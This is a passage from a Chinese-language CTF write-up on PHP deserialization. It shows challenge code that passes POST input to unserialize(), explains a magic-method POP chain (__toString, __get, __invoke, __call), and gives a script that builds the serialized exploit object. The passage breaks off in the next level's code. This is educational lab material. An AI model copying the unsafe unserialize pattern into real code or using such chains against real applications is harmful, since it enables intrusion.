 ```php
    }
}

if (isset($_POST['pop'])) {
    unserialize($_POST['pop']);
}
```

第二层：开始考察魔术方法的触发时机了。pop链：unser----toString----get-----invoke-----call  
反序列化时触发__unserialize， 
关键点：echo $data['num'];  如果$data['num']是一个D类的对象，会接着触发__toString  
关键点：return is_null($this->lao->chen) ? "" : $this->lao->chen;   如果$this->lao是一个B类的对象，打印没有的变量$chen会触发__get魔术方法  
关键点：$function = $this->luo;return $function();返回一个函数   如果$function是一个对象，触发__invoke魔术方法   
关键点：$this->mack->nonExistentMethod();，调用了一个函数 如果成员属性$mack是C类的对象，调用没有的方法，触发__call魔术方法，打印flag2

思路很简单，但反序列化方法中需要注意echo $data['num'],把成员属性num定义成一个数组

```php
$e = new E();
$d = new D();
$b = new B();
$a = new A();
$c = new C();
$e -> num = array('num' => 10);;
$e -> name =  $d;
$d -> lao = $b;
$b ->luo = $a;
$a ->mack = $c;
echo serialize($e);
```

打印第三层：saber_master_saber_master.php

```php
<?php

error_reporting(0);
highlight_file(__FILE__);

// flag.php
class XYCTFNO1
{
    public $Liu;
    public $T1ng;
    private $upsw1ng;

    public function __construct($Liu, $T1ng, $upsw1ng = Showmaker)
    {
        $this->Liu = $Liu;
        $this->T1ng = $T1ng;
        $this->upsw1ng = $upsw1ng;
    }
}

class XYCTFNO2
{
    public $crypto0;
    public $adwa;

    public function __construct($crypto0, $adwa)
    {
        $this->crypto0 = $crypto0;
    }

    public function XYCTF()
```